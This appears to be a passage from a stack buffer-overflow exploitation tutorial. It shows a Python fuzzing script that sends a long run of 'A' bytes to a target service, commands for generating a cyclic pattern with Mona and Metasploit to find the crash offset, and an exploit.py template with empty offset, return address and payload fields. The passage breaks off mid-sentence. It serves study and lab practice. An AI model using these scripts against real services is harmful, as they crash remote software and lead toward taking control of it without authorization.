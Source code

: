 ```
IP = "<IP>"
PORT = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,PORT))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```
You just have to modify those two variables of the scripts above :

IP
PORT
When the application crashes, EIP should be equal to 41414141 (hex value of “AAAA”).
* * *
## Crash replication & controlling EIP
Pattern
Generate a cyclic pattern to found the exact offset of the crash :


```
# Mona
!mona pc <SIZE>

# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
```
The size must be higher than the crash offset. Now modify the payload variable by the cyclic pattern :

```
# exploit.py

import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
Re-run the exploit, the application should crash. To find the exact offset of the crash use :
